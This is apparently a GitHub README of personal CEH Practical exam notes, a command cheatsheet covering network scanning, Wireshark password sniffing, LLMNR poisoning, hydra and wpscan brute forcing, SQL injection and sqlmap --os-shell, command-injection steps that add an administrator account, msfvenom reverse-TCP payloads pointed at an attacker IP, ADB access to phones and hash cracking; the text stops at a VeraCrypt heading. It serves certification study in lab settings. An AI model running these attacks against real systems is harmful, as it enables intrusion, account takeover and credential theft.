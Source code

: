 <img src="/IMG/CEH-Practical-Logo.jpg">

# CEH-Practical-Notes-and-Tools
Successfully completed the CEH (Practical) exam by EC-Council with a score of 20/20! Took me around 2 hours 20 minutes to complete the 6 hour Proctored exam.  

> Just a typical CTF Player/Hacker going back to Basics 💻

> My Personal Notes that I used on the Exam as a Cheatsheet

# Network Hacking - Enumeration
<details>
  <summary>Netdiscover </summary>
  
## Netdiscover
  
* Scan Entire Network for ALive host using ARP
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```
* Enum
```console
1- NetBios enum using windows- in cmd type- nbtstat -a 10.10.10.10 (-a displays NEtBIOS name table)

2- NetBios enum using nmap- nmap -sV -v --script nbstat.nse 10.10.10.16

3- SNMP enum using nmap-  nmap -sU -p 161 10.10.10.10 (-p 161 is port for SNMP)--> Check if port is open
                          snmp-check 10.10.10.10 ( It will show user accounts, processes etc) --> for parrot

4- DNS recon/enum-  dnsrecon -d www.google.com -z

5- FTP enum using nmap-  nmap -p 21 -A 10.10.10.10 

6- NetBios enum using enum4linux- enum4linux -u martin -p apple -n 10.10.10.10 (all info)
				  enum4linux -u martin -p apple -P 10.10.10.10 (policy info)
  ```
</details>

<details>
  <summary>Nmap </summary>
  
## Nmap

* To scan the live Host
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
```
* To find the Specific open port 
```console
nmap -p port x.x.x.1/24 --open
```
* To find the OS 
```console
nmap -O x.x.x.x 
```
* Comprehensive Scan
```console
nmap -Pn -A x.x.x.1/24 -vv --open   
```
* To find FQDN (Find the FQDN in a subnet/network)
```console
nmap -p389 –sV -iL <target_list>
```
```console
 nmap -p389 –sV <target_IP>
```

* Scanning Networks (always do sudo su) --> To be root

  Nmap scan for alive/active hosts command for 192.189.19.18
```console
nmap -A 192.189.19.0/24 or nmap -T4 -A ip
```
  
Zenmap/nmap command for TCP scan- First put the target ip in the Target: and then in the Command: put this command 
```console
nmap -sT -v 10.10.10.16
```
  
Nmap scan if firewall/IDS is opened, half scan 
```console
nmap -sS -v 10.10.10.16 
```
  
If even this the above command is not working then use this command  
```console
namp -f 10.10.10.16
```
Nmap scan for host discovery or OS- nmap -O 192.168.92.10 or you can use
```console
nmap -A 192.168.92.10
```

If host is windows then use this command - this script determines the OS, computer name, domain, workgroup, time over smb protocol (ports 445 or 139).
```console
nmap --script smb-os-discovery.nse 192.168.12.22 
```

nmap command for source port manipulation, in this port is given or we use common port  
```console
nmap -g 80 10.10.10.10
```
```console  
-A command is aggressive scan it includes - OS detection (-O), Version (-sV), Script (-sS) and traceroute (--traceroute).
```
```console  
5- Identify Target system os with (Time to Live) TTL and TCP window sizes using wireshark- Check the target ip Time to live value with protocol ICMP. If it is 128 then it is windows, as ICMP value came from windows. If TTL is 64 then it is linux. Every OS has different TTL. TTL 254 is solaris.
```
Some extra RDP info
```console
Check RDP enabled after getting ip- nmap -p 3389 -iL ip.txt | grep open (ip.txt contains all the alive hosts from target subnet)
```
Some extra MYSQL info
```console
Check MySQL service running- nmap -p 3306 -iL ip.txt | grep open        (ip.txt contains all the alive hosts from target subnet)
```

</details>


<details>
  <summary>🔢 Enumeration Cheatsheet </summary>
	
# 🔢 Enumeration Cheatsheet

#### **General Enumeration:**

* ```
  nmap -vv -Pn -A -sC -sS -T 4 -p- 10.0.0.1
  ```
  * Verbose, syn, all ports, all scripts, no ping
* ```
  nmap -v -sS -A -T4 x.x.x.x
  ```
  * Verbose, SYN Stealth, Version info, and scripts against services.
* ```
  nmap –script smb-check-vulns.nse –script-args=unsafe=1 -p445 [host]
  ```
  * Nmap script to scan for vulnerable SMB servers – WARNING: unsafe=1 may cause knockover
* ```
  netdiscover -r 192.168.1.0/24
  ```

#### **FTP Enumeration (21):** <a href="#toc475368978" id="toc475368978"></a>

* ```
  nmap –script ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 10.0.0.1
  ```

#### **SSH (22):** <a href="#toc475368979" id="toc475368979"></a>

* ```
  ssh INSERTIPADDRESS 22
  ```

#### **SMTP Enumeration (25):** <a href="#toc475368980" id="toc475368980"></a>

* ```
  nmap –script smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.0.0.1
  ```
* ```
  nc -nvv INSERTIPADDRESS 25
  ```
* ```
  telnet INSERTIPADDRESS 25
  ```

#### **Finger Enumeration (79):** <a href="#toc494187363" id="toc494187363"></a>

Download script and run it with a wordlist: [http://pentestmonkey.net/tools/user-enumeration/finger-user-enum](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum)

#### **Web Enumeration (80/443):** <a href="#toc475368981" id="toc475368981"></a>

* dirbuster (GUI)
* ```
  dirb http://10.0.0.1/
  ```
* ```
  nikto –h 10.0.0.1
  ```

#### **Pop3 (110):** <a href="#toc475368982" id="toc475368982"></a>

* ```
  telnet INSERTIPADDRESS 110
  ```
* ```
  USER [username]
  ```
* ```
  PASS [password]
  ```
  * To login
* ```
  LIST
  ```
  * To list messages
* ```
  RETR [message number]
  ```
  * Retrieve message
* ```
  QUIT
  ```
  * quits

#### **RPCBind (111):** <a href="#toc475368983" id="toc475368983"></a>

* ```
  rpcinfo –p x.x.x.x
  ```

#### **SMB\RPC Enumeration (139/445):** <a href="#toc475368984" id="toc475368984"></a>

* ```
  enum4linux –a 10.0.0.1
  ```
* `nbtscan x.x.x.x`
  * Discover Windows / Samba servers on subnet, finds Windows MAC addresses, netbios name and discover client workgroup / domain
* ```
  py 192.168.XXX.XXX 500 50000 dict.txt
  ```
* ```
  python /usr/share/doc/python-impacket-doc/examples/samrdump.py 192.168.XXX.XXX
  ```
* ```
  nmap IPADDR --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse
  ```
* ```
  smbclient -L //INSERTIPADDRESS/
  ```
  * List open shares
* ```
  smbclient //INSERTIPADDRESS/ipc$ -U john
  ```

#### **SNMP Enumeration (161):** <a href="#toc475368985" id="toc475368985"></a>

* ```
  snmpwalk -c public -v1 10.0.0.0
  ```
* ```
  snmpcheck -t 192.168.1.X -c public
  ```
* ```
  onesixtyone -c names -i hosts
  ```
* ```
  nmap -sT -p 161 192.168.X.X -oG snmp_results.txt
  ```
* ```
  snmpenum -t 192.168.1.X
  ```

#### **Oracle (1521):** <a href="#toc475368986" id="toc475368986"></a>

* ```
  tnscmd10g version -h INSERTIPADDRESS
  ```
* ```
  tnscmd10g status -h INSERTIPADDRESS
  ```

#### **Mysql Enumeration (3306):** <a href="#toc475368987" id="toc475368987"></a>

* ```
  nmap -sV -Pn -vv  10.0.0.1 -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122
  ```

#### **DNS Zone Transfers:** <a href="#toc475368988" id="toc475368988"></a>

* ```
  nslookup -> set type=any -> ls -d blah.com
  ```
* ```
  dig axfr blah.com @ns1.blah.com
  ```
  * This one works the best in my experience
* ```
  dnsrecon -d TARGET -D /usr/share/wordlists/dnsmap.txt -t std --xml ouput.xml
  ```

#### **Mounting File Share** <a href="#toc475368989" id="toc475368989"></a>

* ```
  showmount -e IPADDR
  ```
* ```
  mount 192.168.1.1:/vol/share /mnt/nfs  -nolock
  ```
  * mounts the share to /mnt/nfs without locking it
* ```
  mount -t cifs -o username=user,password=pass,domain=blah //192.168.1.X/share-name /mnt/cifs
  ```
  * Mount Windows CIFS / SMB share on Linux at /mnt/cifs if you remove password it will prompt on the CLI (more secure as it wont end up in bash\_history)
* ```
  net use Z: \\win-server\share password  /user:domain\janedoe /savecred /p:no
  ```
  * Mount a Windows share on Windows from the command line
* ```
  apt-get install smb4k –y
  ```
  * Install smb4k on Kali, useful Linux GUI for browsing SMB shares

#### **Fingerprinting:  Basic versioning / finger printing via displayed banner** <a href="#toc475368990" id="toc475368990"></a>

* ```
  nc -v 192.168.1.1 25
  ```
* ```
  telnet 192.168.1.1 25
  ```

#### **Exploit Research** <a href="#toc475368991" id="toc475368991"></a>

* ```
  searchsploit windows 2003 | grep -i local
  ```
  * Search exploit-db for exploit, in this example windows 2003 + local esc

#### **Compiling Exploits** <a href="#toc475368992" id="toc475368992"></a>

* ```
  gcc -o exploit exploit.c
  ```
  * Compile C code, add –m32 after ‘gcc’ for compiling 32 bit code on 64 bit Linux
* ```
  i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe
  ```
  * Compile windows .exe on Linux

#### **Packet Inspection:** <a href="#toc475368993" id="toc475368993"></a>

* ```
  tcpdump tcp port 80 -w output.pcap -i eth0
  ```
  * tcpdump for port 80 on interface eth0, outputs to output.pcap

\
**
</details>

  <details>
  <summary>Wireshark</summary>
    
  ## Wireshark
  
  * Wireshark provides the feature of reassembling a stream of plain text protocol packets into a human-readable format
  
  ```shell
    select_packet > follow > TCP Stream
  ```
  
  * To the get the specific method like ( post , get )
  
  ```console
  http.request.method==post
  http.request.method==get
  ```
  * To the Find DOS & DDOS (SYN and ACK) : 
```console
tcp.flags.syn == 1 , tcp.flags.syn == 1 and tcp.flags.ack == 0
```
  * go to Statistics and Select Conversations , sort by packets in IPv4 based on number of Packets transfer
  
  ```shell
  Statistics > Conversations > IPv4 > Packets
  ```
* Wireshark summary
   
  ```console
  tcp.flags.syn == 1 and tcp.flags.ack == 0    (How many machines) or Go to statistics IPv4 addresses--> Source and Destination ---> Then you can apply the filter given

  tcp.flags.syn == 1   (Which machine for dos)

  http.request.method == POST   (for passwords) or click tools ---> credentials Also
  ```

 * Password Sniffing using Wireshark.  
In pcap file apply filter:- (you will get all the post request) Now to capture password click on edit in menu bar, then near Find packet section, on the "display filter" select "string", also select "Packet details" from the drop down of "Packet list", also change "narrow & wide" to "Narrow UTF-8 & ASCII", and then type "pwd" in the find section.
```console
http.request.method==POST
```
### wireshark filters
```console
### wireshark filters

# // filters by post
http.request.method==POST
smtp // email
pop // email
dns.qry.type == 1 -T fields -e dns.qry.name = show records present in this pcap
dns.flags.response == 0 = There are 56 unique DNS queries.
tcp // show tcp packets
# //find packets
edit > find packets > packet list : packet bytes > case sensitive: strings > string "pass" :search

# //DDOS ATTACK
look number of packets first column
then >statistics > ipv4 statistics > destination and ports

# ///Capture Packets with tcpdump
tcpdump -i eth0 -w capture.pcap

# ///Analyze with Wireshark filters
http.request.method == "POST"
ftp.request.command == "USER" || ftp.request.command == "PASS"

# /// tshark cli
tshark -r dns.cap | wc -l //count how many packets are in a capture
tshark -r dns.cap -Y "dns.qry.type == 1" -T fields -e dns.qry.name //show records present in this pcap
tshark -r dnsexfil.pcap -Y "dns.flags.response == 0" | wc -l 
tshark -r pcap -T fields -e dns.qry.name | uniq | wc -l //There are 56 unique DNS queries.
tshark -r pcap | head -n2 //DNS server side to identify 'special' queries
tshark -r pcap -Y "dns.flags.response == 0" -T fields -e "dns.qry.name" | sed "s/.m4lwhere.org//g" | tr -d "\n" `exfiltrate data with regx`
```
</details>

<details>
  <summary>Covert TCP</summary>
  
  ## Covert TCP
  
  * [covert_TCP](Covert_TCP.c) 
  * In this we have to use Covert TCP technique to analyses the pcapng file.
  * Traverse though each line in Wireshark and concentrate on Identification field, keep an eye on Hex value and ANSI value.
  * Compile the Code
  ```console
cc -o covert_tcp covert_tcp.c
  ```
  * Reciever Machine(Client_IP)
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 9999 -dest_port 8888 -server -file recieve.txt
  ```
  * Sender Machine(Attacker_IP)
  * Create A Message file that need to be transferred Eg: secret.txt
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 8888 -dest_port 9999 -file secret.txt
  ```
 
 * Secret message sent using Covert_TCP and it is captured using Wireshark - [Pcap_of_Covert](Covert_TCP_Capture.pcapng)
 * The Secret text is -> Hello  This 123 -

  <img src="/IMG/CovertWireshark.jpg" />

 

</details>

<details>
  <summary> LLMNR/NBT</summary>
  
  ##  LLMNR/NBT-NS Poisoning

* [Responder](https://github.com/lgandx/Responder) - rogue authentication server to capture hashes.

* This can be used to get the already logged-in user's password, who is trying to access a shared resource which is not present.
  
* In Parrot/Kali OS, 

```console
responder -I eth0  
```

* In windows, try to access the shared resource, logs are stored at usr/share/responder/logs/SMB<filename>
* To crack that hash, use JohntheRipper

```console
john SMBfilename  
```
</details>

<details>
  <summary>Common Ports</summary>
  
 ## Common Port

* 21        - FTP
* 22        - SSH
* 23        - TELNET
* 3306      - MYSQL
* 389,3389  - RDP

</details>

<details>
  <summary>Port Login</summary>

  ## Port Login
    
  * FTP Login
    
  ```console
    ftp x.x.x.x
  ```
    
  * SSH Login  
  ```console
    ssh username@x.x.x.x
  ```
    
  * TELNET Login
  ```console
    telnet x.x.x.x
  ```
   
 </details>
</details>

# Web Hacking
<details>
	
<summary>HACKING WEB</summary>

@@ Hacking Web servers

```console
1- Footprinting web server Using Netcat and Telnet- nc -vv www.movies.com 80
						    GET /HTTP/1.0
						    telnet www.movies.com 80
						    GET /HTTP/1.0

2- Enumerate Web server info using nmap-  nmap -sV --script=http-enum www.movies.com

3- Crack FTP port using nmap-
nmap -p 21 10.10.10.10 (check if it is open or not)

ftp 10.10.10.10 (To see if it is directly connecting or need credentials if need. Then go to Desktop and in Ceh tools folder you will find wordlists, here you will find usernames and passwords file. )

Now in terminal type-
hydra -L /home/attacker/Desktop/CEH_TOOLS/Wordlists/Username.txt -P /home/attacker/Desktop/CEH_TOOLS/Wordlists/Password.txt ftp://10.10.10.10
or
hydra -l user -P passlist.txt ftp://10.10.10.10
```

@@ Hacking Web Application
```console
1- Scan Using OWASP ZAP (Parrot)- Type 'zaproxy' in the terminal and then it would open. In target tab put the url and click automated scan.

2- Directory Bruteforcing
gobuster dir -u 10.10.10.10 -w /home/attacker/Desktop/common.txt

3- Enumerate a Web Application using WPscan & Metasploit BFA- (u means username) 
wpscan --url http://10.10.10.10:8080/NEW --enumerate u  

Then type msfconsole to open metasploit. Type -  use auxilliary/scanner/http/wordpress_login_enum
 						 show options
						 set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt
						 set RHOSTS 10.10.10.10  (target ip)
						 set RPORT 8080          (target port)
						 set TARGETURI http://10.10.10.10:8080/
						 set USERNAME admin

4- Brute Force using WPscan -    wpscan --url http://10.10.10.10:8080/NEW -u root -P passwdfile.txt (Use this only after enumerating the user like in step 3)
			         wpscan --url http://10.10.10.10:8080/NEW --usernames userlist.txt, --passwords passwdlist.txt 

5- Command Injection-  | net user  (Find users)
 		       | dir C:\  (directory listing)
                       | net user Test/Add  (Add a user)
		       | net user Test      (Check a user)
		       | net localgroup Administrators Test/Add   (To convert the test account to admin)
		       | net user Test      (Once again check to see if it has become administrator)
Now you can do a RDP connection with the given ip and the Test account which you created.
```
 </details>
<details>

 <summary>Enumeration</summary>

### Banner Grabbing
```console
nc -nv 192.168.1.5 80              # Netcat to check web server banner
 ```

 ### dir enumeration

 ```console
gobuster dir -u 10.10.. -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html,txt -q
```
```console
dir : directory listing
-u : host
-w : wordlists
-t : threads int / Number of concurrent threads (default 10)
-x : enumerate hidden files htm, php
-q : –quiet / Don’t print the banner and other noise

// wordpress enumeration
wpscan --url https://localchost.com --passwords=
wpscan -u 10.10.. -e u vp
wpscan -u 10.10.. -e u --wordlist path/rockyou.txt //bruteforce

-e = enumerate
u = enumerate usernames
vp = vulnerable plugins

// wordlist generation
cewl -w wordlist -d 2 -m 5 http://wordpress.com
-d = deeph of the scanning
-m = long of the words
-w = save to a file worlist
```
### enumerating -samba
```console
search for commands
smbmap --help | grep -i username

smbmap -u "admin" -p "passowrd" -H 10.10.10.10 -x "ipconfig"
-x = command
```
</details>
<details>

  <summary>Nslookup</summary>

* To verify Website's Ip
```console
Nslookup wwww.example.com
```
  </details>
  <details>
  <summary>File Upload</summary>
  
  ## File Upload Vulnerability
  
* To create a PHP Payload 
* Copy the PHP code and create a .php
  
```console
msfvenom -p php/meterpreter/reverse_tcp lhost=attacker-ip lport=attcker-port -f raw
```
  
* To create a Reverse_tcp Connection
```console
msfconsole
use exploit/multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST = attacker-ip
set LPORT = attcker-port
run
```
  
* To find the secret file 
```console
  type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt
```
  </details>
<details>

 Summary
 ```console
1- Auth Bypass-  hi'OR 1=1 --

2- Insert new details if sql injection found in login page in username tab enter- blah';insert into login values('john','apple123');--

3- Exploit a Blind SQL Injection- In the website profile, do inspect element and in the console tab write -  document.cookie
Then copy the cookie value that was presented after this command. Then go to terminal and type this command,
sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --dbs

4- Command to check tables of database retrieved-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename --tables

5- Select the table you want to dump-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename -T Table_Name --dump   (Get username and password)

6- For OS shell this is the command-   sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --os-shell

6.1 In the shell type-   TASKLIST  (to view the tasks)

6.2 Use systeminfo for windows to get all os version

6.3 Use uname -a for linux to get os version
```
  <summary>SQL Injection</summary>
  
  ## SQL Injection
  
  * Login bypass with [' or 1=1 --]
  

### SQLMAP
  
* List databases, add cookie values
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
```
* OR
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  
```

* List Tables, add databse name
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  
```
* List Columns of that table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns
```
* Dump all values of the table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump
```

### DSSS
  
  * Damn Small SQLi Scanner ([DSSS](https://github.com/stamparm/DSSS)) is a fully functional SQL injection vulnerability scanner (supporting GET and POST parameters)

  * As of optional settings it supports HTTP proxy together with HTTP header values User-Agent, Referer and Cookie.

  ```console
  python3 dsss.py -u "url" --cookie="cookie"
  ```
  <img src="/IMG/DSSS/dsss1.jpg" />  

  
  * Open the binded URL
  
  <img src="/IMG/DSSS/dsss2.jpg" />  

  
  </details>



</details>

# System Hacking

<details>
  <summary>System</summary>
  
  ## System 

  * To create a Payload 
```console
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=attacker_IP LPORT=attacker_Port -o filename.exe 
```
* To take a reverse TCP connection from windows
```console
msfdb init && msfconsole 
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST= attacker-IP  
set LPORT= attacker-Port 
run
```

</details>

# Android Hacking
<details>
<summary>Android</summary>

  ## Android
  
```console
1- nmap ip -sV -p 5555    (Scan for adb port)

2- adb connect IP:5555    (Connect adb with parrot)

3- adb shell              (Access mobile device on parrot)

4- pwd --> ls --> cd sdcard --> ls --> cat secret.txt (If you can't find it there then go to Downloads folder using: cd downloads)
```

  <summary>ADB</summary>

  ## ADB
  
* To Install ADB
```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```
* Connection Establish Steps

```console
adb connect x.x.x.x:5555
adb devices -l
adb shell  
```
* To navigate
```console
pwd
ls
cd Download
ls
cd sdcard
```
* Download a File from Android using ADB tool
```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```
</details>
<details>
  <summary>PhoneSploit</summary>
  
## PhoneSploit tool
  
* To install Phonesploit 

```console
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama
```
* To run Phonesploit
```console
python3 phonesploit.py
```
* Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
* Type 4, to Access Shell on phone
* Download File using PhoneSploit
```console
9. Pull Folders from Phone to PC
```
* Enter the Full Path of file to Download
```console
sdcard/Download/secret.txt
```  
</details>

# Password Cracking & Hashing



<details>
  <summary>Wpscan</summary>
  
## Wordpress

* Wordpress site only Users Enumeration
```console
wpscan --url http://example.com/ceh --enumerate u
```
  * Direct crack if we have user/password detail
```console
wpscan --url http://x.x.x.x/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt
wpscan --url http://x.x.x.x:8080/CEH -u <user> -P ~/wordlists/password.txt
```
</details>

<details>
  <summary>Hydra</summary>

## Hydra
### GUI
```console
xhydra
```

### RDP
```console
hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 -V
```
### SSH
```console
hydra -l username -P passlist.txt x.x.x.x ssh

hydra -l root -P passwords.txt -f ssh://10.0.2.5 -V
```
```console
hydra -t4 -l lin -P /usr/share/wordlists/rockyou.txt ssh:10.10.149.11
hydra -l lin -P /usr/share/wordlists/rockyou.txt ssh:10.10.149.118
```
### FTP
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

hydra -l user -P passlist.txt ftp://10.10.10.10
```
* If the service isn't running on the default port, use -s
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221
```
* Used to download the specific file from FTP to attacker or local machine
```console
get flag.txt ~/Desktop/filepath/flag.txt
get flag.txt .
```
### SMB
```console
hydra -l root -P passwords.txt -f smb://10.0.2.5 -V
```

### HTTP Basic Auth
```console
hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V
```
### HTTP POST
```console
# HTTP Post
hydra -L users.txt -P password.txt 10.0.2.5 http-post-form
"/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login
name or password is incorrect" -V
```
### IMAP
```console
# IMAP
hydra -l root -P passwords.txt -f imap://10.0.2.5 -V
```
### POP
```console
# POP
hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V
```

### Post Web Form
```console
hydra -l -P 10.10.46.122 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```


### TELNET
```console
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet
```
### Other Examples
```console
Rexec
hydra -l root -P password.txt rexec://10.0.2.5 -V

Rlogin
hydra -l root -P password.txt rlogin://10.0.2.5 -V

RSH
hydra -L username.txt rsh://10.0.2.5 -V

RSP
hydra -l root -P passwords.txt <IP> rtsp

SMTP
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V
#Port 587 for SMTP with SSL

Telnet
hydra -l root -P passwords.txt [-t 32] <IP> telnet

VNC
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT>
<IP> vnc
```
</details>

<details>
<summary>hash</summary>

## hash
<summary>hash</summary>

### Using Hashcat
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

### hashcat -a attack mode -m hashtype 900 md4 1000 NTLM 1800 SHA512CRYPT 110 SHA1 with SALT HASH 0 MD5 100 SHA1 1400 SHA256 3200 BCRYPT 160 HMAC-SHA1
```console
Hashcat -a 3 -m 900 hash.txt /rockyou.txt
```
### Hash Identifier 
```console
https://www.onlinehashcrack.com/hash-identification.php
```
### Hash-identifier (CLI)
#### Hash Crack 
```console
https://crackstation.net/ https://hashes.com/en/decrypt/hash
```

</details>



<details>
<summary>John</summary>

# John

### Using John
```console
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


## Commands Formats

```console
john --list=formats
```

### Crack SHA1

```console
john  --format=raw-sha1 hash.txt
```

### Crack MD5

```console
john --format=raw-md5 hash.txt
```

### Cracking Shadow Files

# Unshadow
unshadow passwd.txt shadow.txt > unshadowed.txt


# John
		
john /etc/shadow

<strong># Wordlist
john --wordlist=&#x3C;password.txt> /etc/shadow

### Cracking Zip Files

```console
# Zip to John
zip2john file.zip > ziphash.txt

```
```console
# John
john --format=zip ziphash.txt
```

### Crack .pfx File

```console
pfx2john <pfx file> > hash.txt

john hash.txt --wordlist=<wordlist location>
```

### Crack GPG Passphrase

**Read More** [Here](https://blog.atucom.net/2015/08/cracking-gpg-key-passwords-using-john.html)

```console
gpg2john priv.key > hash 

john hash --wordlist=/usr/share/wordlists/rockyou.txt 
```

### Crack SSH Passphrase

```console
ssh2john /home/chinju/.ssh/id_rsa > ssh_hash.txt

john ssh_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

 </details>
  
# Steganography
  
  <details>
	  <summary>Steganography</summary>
	  
## Steganography
	  
### Extract files from images
```console
steghide extract -sf secret.jpg
```
### Find hidden strings
```console
strings suspect.png | less
 ```
  </details>
  
  <details>
	  <summary>Snow</summary>

### Snow
    
* Whitespace Steganography using [Snow](https://darkside.com.au/snow/snwdos32.zip)
* To hide the Text  
  
```console
SNOW.EXE -C -p test -m "Secret Message" original.txt hide.txt
```

* To unhide the Hidden Text

```console
SNOW.EXE -C -p test hide.txt
```
kali Hide Data Using Whitespace Stegnography- (magic is password and your secret is stored in readme2.txt along with the content of readme.txt)
```console
snow -C -m "My swiss account number is 121212121212" -p "magic" readme.txt readme2.txt  
```
To Display Hidden Data-(then it will show the content of readme2.txt content) 
```console
snow -C -p "magic" readme2.txt
```
<img src="/IMG/Snow.png"/>

</details>

<details>
  <summary>CrypTool</summary>
  
  ### CrypTool
  
  * [CrypTool](https://www.cryptool.org/en/ct1/downloads) for hex 
  
  <img src = "/IMG/Cryptool/CT.png"/>
  
  * To Encrypt
  
  <img src = "/IMG/Cryptool/CT5.png"/>
  <img src = "/IMG/Cryptool/CT6.png"/>
  
  * Use Key 05 
  
  <img src = "/IMG/Cryptool/CT7.png"/>
  <img src = "/IMG/Cryptool/CT8.png"/>
  <img src = "/IMG/Cryptool/CT9.png"/>
  <img src = "/IMG/Cryptool/CT10.png"/>
  <img src = "/IMG/Cryptool/CT11.png"/>
  
  * To Decrypt
  
  <img src = "/IMG/Cryptool/CT12.png"/>
  <img src = "/IMG/Cryptool/CT13.png"/>
  <img src = "/IMG/Cryptool/CT14.png"/>
  <img src = "/IMG/Cryptool/CT15.png"/>
  <img src = "/IMG/Cryptool/CT16.png"/>
 </details>
  
 <details>
   <summary>HashCalc</summary>
   
   ## HashCalc
    
   * HashCalc Interface.
   <img src = "/IMG/HashCalc/Hcal1.png"/>

   * Create a text file.
   <img src = "/IMG/HashCalc/Hcal2.png"/>
   
   * Choose text file.
   <img src = "/IMG/HashCalc/Hcal3.png"/>
   
   * Hash Value of text file.
   <img src = "/IMG/HashCalc/Hcal4.png"/>
   
   * Modify the text inside the file. 
   <img src = "/IMG/HashCalc/Hcal5.png"/>
   
   * Compare the hash, It will vary.
   <img src = "/IMG/HashCalc/Hcal6.png"/>
   
 </details>

  <details>
    <summary>HashMyFile</summary>
 
  ## HashMyFile  
    
  * HashMyFile Application
  <img src = "/IMG/HashMyFile/HMF1.png"/>
    
  * add folder to Hash the file presented in Folder  
  <img src = "/IMG/HashMyFile/HMF2.png"/>  
  <img src = "/IMG/HashMyFile/HMF3.png"/>

  * After Hash the file
  <img src = "/IMG/HashMyFile/HMF4.png"/>
    
  * Add More Hashing Format
  <img src = "/IMG/HashMyFile/HMF5.png"/>
</details>
  
  <details>
    <summary>MD5 Calculator</summary>
    
    ## MD5 Calculator  
  
  * Create a text file contains "Hello" and save it, Right click the file to compare hash. 
  <img src = "/IMG/MD5 Calc/MD5Calc1.png"/>  
  
  * MD5 Hash of text file
  <img src = "/IMG/MD5 Calc/MD5Calc2.png"/> 
  
  <img src = "/IMG/MD5 Calc/MD5Calc3.png"/>  
  
  <img src = "/IMG/MD5 Calc/MD5Calc4.png"/>  
  
</details>

<details>
    <summary>VeraCrypt</summary>
      
